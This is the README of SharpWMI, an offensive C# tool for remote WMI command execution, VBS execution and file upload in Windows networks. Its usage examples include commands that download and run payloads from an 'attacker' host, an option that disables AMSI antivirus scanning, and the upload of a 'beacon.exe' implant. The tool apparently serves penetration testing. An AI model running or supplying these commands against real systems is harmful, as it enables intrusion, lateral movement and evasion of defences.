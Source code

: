 
# SharpWMI

----

SharpWMI is a C# implementation of various WMI functionality. This includes local/remote WMI queries, remote WMI process creation through win32_process, and remote execution of arbitrary VBS through WMI event subscriptions. Alternate credentials are also supported for remote methods. 

[@harmj0y](https://twitter.com/harmj0y) is the primary author.

SharpWMI is licensed under the BSD 3-Clause license.

## Usage

```
  Local system enumeration:
    SharpWMI.exe action=query query="select * from win32_service" [namespace=BLAH]

  Remote system enumeration:
    SharpWMI.exe action=query computername=HOST1[,HOST2,...] query="select * from win32_service" [namespace=BLAH]

  Remote process creation:
    SharpWMI.exe action=exec computername=HOST[,HOST2,...] command="C:\\temp\\process.exe [args]" [amsi=disable] [result=true]

  Remote VBS execution:
    SharpWMI.exe action=executevbs computername=HOST[,HOST2,...] [script-specification] [eventname=blah] [amsi=disable] [time-specs]

  File upload via WMI:
    SharpWMI.exe action=upload computername=HOST[,HOST2,...] source="C:\\source\\file.exe" dest="C:\\temp\\dest-file.exe" [amsi=disable]

NOTE:
  Any remote function also takes an optional "username=DOMAIN\\user" "password=Password123!"
```

### VBS Script execution:

The `executevbs` action was reworked as compared to the original version of SharpWMI.
Script specification defined in [script-specification] offers following methods to point this tool at target VBS code:

```
  A) Executes OS command via preset VBS code:
    SharpWMI.exe action=executevbs [...] command="notepad.exe"

  B) Downloads Powershell commands from URL and execute them from within VBS via Powershell's StdIn:
    SharpWMI.exe action=executevbs [...] url="http://attacker/myscript.ps1"

  C) Download a binary file from given URL, store it in specified path and then execute it:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe"

  D) Download a binary file from given URL, store it in specified path and then execute arbitrary command:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe" command="%TEMP%\bar.exe -some -parameters"

  E) Read VBS script from file and execute it:
    SharpWMI.exe action=executevbs [...] script="myscript.vbs"

  F) Execute given VBS script given literally:
    SharpWMI.exe action=executevbs [...] script="CreateObject(\\"WScript.Shell\\").Run(\\"notepad.exe\\")"

  G) Base64 decode input string being encoded VBS script and execute it on remote machine:
    SharpWMI.exe action=executevbs [...] scriptb64="Q3JlYXRlT2JqZWN0KCJXU2NyaXB0LlNoZWxsIi[...]"

  H) Read contents of given file, base64 decode them and then execute on target machine:
    SharpWMI.exe action=executevbs [...] scriptb64="myscript.vbs.b64"

  Finally, 'executevbs' action may have additional [time-specs] defined in seconds - they specify script trigger and wait timeouts:
    SharpWMI.exe action=executevbs [...] trigger=5 timeout=10
```


### Examples:

```
  SharpWMI.exe action=query query ="select * from win32_process"

  SharpWMI.exe action=query query="SELECT * FROM AntiVirusProduct" namespace="root\\SecurityCenter2"

  SharpWMI.exe action=query computername=primary.testlab.local query="select * from win32_service"

  SharpWMI.exe action=query computername=primary,secondary query="select * from win32_process"

  SharpWMI.exe action=exec computername=primary.testlab.local command="powershell.exe -enc ZQBj..."

  SharpWMI.exe action=exec computername=primary.testlab.local command="whoami" result=true amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local command="notepad.exe" eventname="MyLittleEvent" amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local username="TESTLAB\\harmj0y" password="Password123!" script="myscript.vbs"

  SharpWMI.exe action=upload computername=primary.testlab.local source="beacon.exe" dest="C:\\Windows\\temp\\foo.exe" amsi=disable
```


## Compile Instructions

We are not planning on releasing binaries for SharpWMI, so you will have to compile yourself :)

SharpWMI has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.


## Authors

|Contribution  |Author  |
|--|--|
|Original SharpWMI implementation|[Will Schroeder @harmj0y](https://github.com/harmj0y)  |
|WMI code-exec output idea |[Evi1cg @Ridter](https://github.com/Ridter)  |
|AMSI evasion code taken from SharpMove |[Steven Flores 0xthirteen](https://github.com/0xthirteen)  |
|Enhancements, VBS flexibility, file upload |[Mariusz B. / mgeeky @mariuszbit](https://github.com/mgeeky)  |